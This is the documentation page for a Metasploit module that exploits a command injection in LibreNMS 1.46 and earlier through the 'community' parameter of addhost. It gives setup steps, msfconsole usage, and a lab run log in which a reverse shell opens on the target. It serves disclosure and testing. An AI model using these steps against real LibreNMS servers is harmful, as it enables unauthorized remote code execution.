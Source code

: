 ## Description
  
  In LibreNMS `v1.46` and below, there exists a command injection vulnerability in `capture.inc.php`.
  The vulnerable functionality is intended to run a command such as `snmpwalk` and save the output as
  a file. The `community` parameter is an unsanitized parameter retrieved through a POST request to `addhost`,
  and it is used to build the command that is executed in the `capture.inc.php` functionality. The final command
  is passed to the `popen()` function, which results in execution of arbitrary code.

  This module has been tested on LibreNMS `v1.46` and `v1.45`.

## Vulnerable Application

  A [pre-built OVA](https://github.com/librenms/packer-builds/releases/tag/1.46) can be downloaded via a LibreNMS repo.

  Additionally, vulnerable versions of LibreNMS for Ubuntu can be manually installed using the instructions [here](https://docs.librenms.org/Installation/Installation-Ubuntu-1804-Apache/).
  In the command `composer create-project --no-dev --keep-vcs librenms/librenms librenms dev-master`, replace `dev-master`
  with a vulnerable version of the software, ex: `1.46`.

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/librenms_addhost_cmd_inject```
  4. Do: ```set RHOSTS <ip>```
  5. Do: ```set USERNAME <user>```
  6. Do: ```set PASSWORD <pass>```
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

### Tested on LibreNMS 1.46 on Ubuntu 18.04

  ```
  msf5 > use exploit/linux/http/librenms_addhost_cmd_inject
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set rhosts 192.168.37.143
  rhosts => 192.168.37.143
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set username blah
  username => blah
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set password password
  password => password
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > set lhost 192.168.37.1
  lhost => 192.168.37.1
  msf5 exploit(linux/http/librenms_addhost_cmd_inject) > run

  [*] Started reverse TCP double handler on 192.168.37.1:4444 
  [*] Successfully logged into LibreNMS
  [+] Successfully added device with hostname dFEzcH
  [*] Accepted the first client connection...
  [*] Accepted the second client connection...
  [+] Successfully deleted device with hostname dFEzcH and id #126
  [*] Command: echo 38eJIFZsiRl3Er48;
  [*] Writing to socket A
  [*] Writing to socket B
  [*] Reading from sockets...
  [*] Reading from socket A
  [*] A: "Trying: not found\r\nsh: 2: Connected: not found\r\nsh: 3: Escape: not found\r\n38eJIFZsiRl3Er48\r\n"
  [*] Matching...
  [*] B is input...
  [*] Command shell session 1 opened (192.168.37.1:4444 -> 192.168.37.143:55380) at 2019-05-29 15:26:02 -0500

  whoami
  www-data
  uname -a
  Linux ubuntu 4.18.0-15-generic #16~18.04.1-Ubuntu SMP Thu Feb 7 14:06:04 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
  ```
